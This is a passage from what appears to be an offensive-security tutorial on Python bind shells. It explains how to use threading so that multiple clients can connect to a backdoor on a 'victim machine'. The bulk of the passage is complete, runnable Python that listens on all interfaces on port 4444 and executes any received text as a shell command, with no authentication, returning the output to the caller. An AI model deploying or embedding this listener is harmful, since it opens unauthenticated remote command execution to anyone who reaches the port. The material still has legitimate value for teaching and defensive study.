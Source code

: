 ```shell
```

The downside of the current implementation is that once we disconnect, the bind shell process stops. One way to fix this is to introduce `threads` and have the command execution part of the code run in a thread. This would allow us to create a new thread every time a machine connects to the shell, and then we would only have to stop the extra thread when the shell exits. Threads, in general, is a vast and complex topic, and Python has its quirks too. To keep a very long and complicated story short and straightforward, threads let us run different code pieces `concurrently`, similarly to how humans multitask. Note that concurrently is not the same as parallel. In our example, this means that while one thread is busy doing work for our connected client, another thread (the primary one) is ready to accept a new incoming connection. Once another connection is made, these two connected clients can execute code on the victim machine using the same bind shell.

By simply extracting the code that handles command execution to its function, it is possible to make the bind shell first listen for a new connection, spawn a thread for that connection that handles command execution, and finally start over listening to new incoming connections.

#### Supporting multiple connections

```python
import socket
import subprocess
import click
from threading import Thread

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

def handle_input(client_socket):
    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)

    while True:
        client_socket, _ = s.accept()
        t = Thread(target=handle_input, args=(client_socket, ))
        t.start()

if __name__ == '__main__':
    main()

```
